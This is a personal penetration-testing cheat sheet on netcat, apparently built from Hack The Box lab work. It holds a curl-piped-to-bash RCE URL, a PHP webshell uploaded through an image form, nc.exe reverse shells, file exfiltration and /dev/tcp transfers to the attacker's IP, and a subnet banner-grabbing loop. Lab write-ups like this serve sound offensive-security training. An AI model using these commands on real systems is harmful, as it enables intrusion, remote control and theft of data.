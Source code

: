 # 💢 netcat / ncat / nc

Tags: #💢
Related to:
See also: [[powercat]], [[socat]]
Previous: [[Getting Started]], [[Footprinting]]

## Description

TCP/IP swiss army knife.

## Usage Examples

### Connect to a host

	nc localhost 6379

### Setup listener to receive reverse shell

	nc -lvnp 9001

Use RCE to execute reverse shell script.

	http://10.129.171.59/templates/protostar/htb.php?pwn=curl 10.10.17.201/reverse_shell.sh | bash

```nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.17.201] from (UNKNOWN) [10.129.171.59] 37656
bash: cannot set terminal process group (1542): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/var/www/html/templates/protostar$
```

### Harvest banners from CIDR /24 range for given port-range

	for i in {0..255};
		do nc -nvw2 192.168.0.$i [port-range];
		done

### Leverage a PHP vulnerability to get a reverse shell

The registration form has the option to upload an image. Save the below code to shell.php and upload it using the form.

	vi shell.php

```
<?php echo exec($_GET["cmd"]);?>
```

Click on Submit to complete registration and upload the webshell. The web shell can be accessed at:

	proxychains firefox http://172.16.1.13/discuss/ups/shell.php?cmd=whoami	// dante-ws01\gerald

Let's upgrade to a proper shell. Upload netcat to target:

	ifconfig tun0										// local IP 10.10.16.52
	cd "/home/kali/HTB/Pro Labs/Dante/www"
	cp /usr/share/windows-resources/binaries/nc.exe .
	python3 -m http.server 80
	
	proxychains firefox http://172.16.1.13/discuss/ups/shell.php?cmd=powershell wget 10.10.16.52/nc.exe -o nc.exe

	nc -lvnp 9001	// locally
	
	proxychains firefox http://172.16.1.13/discuss/ups/shell.php?cmd=nc.exe -e cmd.exe 10.10.16.52 9001

```
Microsoft Windows [Version 10.0.18363.900]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\discuss\ups>
```

### Exfiltrate file

Let's get SERVER.EXE onto our running machine and see if we can extract some credentials from the binary:

	nc -lvnp 3333 > server.exe						// locally
	nc.exe 10.10.16.52 3333 < C:\Apps\SERVER.EXE	// remotely

### Transfer file

Transfer chisel to DANTE-WEB-NIX01:

	nc -lvnp 80 < chisel	// in my Dante/www
	bash -c "cat < /dev/tcp/10.10.16.52/80 > chisel"

	nc -lvnp 80 < nmap						// kali
	cat < /dev/tcp/10.10.16.12/80 > nmap	// target

# References